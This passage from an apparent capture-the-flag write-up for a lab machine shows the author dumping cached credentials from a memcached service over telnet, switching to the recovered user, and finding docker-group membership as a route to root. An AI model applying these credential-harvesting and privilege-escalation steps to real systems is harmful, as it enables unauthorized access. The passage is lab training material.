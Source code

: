 
A few Google search lead us to an article about
[testing memcached](https://www.hackingarticles.in/penetration-testing-on-memcached-server/).
We connect to the service using telnet. We list the item available, get the
`user` and the `passwd` items.

    :::text
    www-data@cache:/var/cache/apt$ telnet 127.0.0.1 11211
    telnet 127.0.0.1 11211
    Trying 127.0.0.1...
    Connected to 127.0.0.1.
    Escape character is '^]'.
    stats cachedump 1 0
    ITEM link [21 b; 0 s]
    ITEM user [5 b; 0 s]
    ITEM passwd [9 b; 0 s]
    ITEM file [7 b; 0 s]
    ITEM account [9 b; 0 s]
    END
    get user
    VALUE user 0 5
    luffy
    END
    get passwd
    VALUE passwd 0 9
    0n3_p1ec3
    END

We get back to an interactive shell and switch user to `luffy`. We quickly
identify that we belong to the `docker` group and display the `docker` version.

    :::text
    $ su luffy
    su luffy
    Password: 0n3_p1ec3

    luffy@cache:/var/www/hms.htb/public_html/interface/main$ id
    id
    uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

    luffy@cache:/var/www/hms.htb/public_html/interface/main$ docker --version
    docker --version
    Docker version 18.09.1, build 4c52b90

We use `searchsploit` again but th listed one is destructive.

A few Google search lead us to
[another article](https://www.hackingarticles.in/docker-privilege-escalation/)
explaining how you can get a full access to the host system by mounting it into
the docker machine. We quickly list the available images. Only a `ubuntu` is
available.

    :::text
    luffy@cache:/var/www/hms.htb/public_html/interface/main$ docker image ls
    docker image ls
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
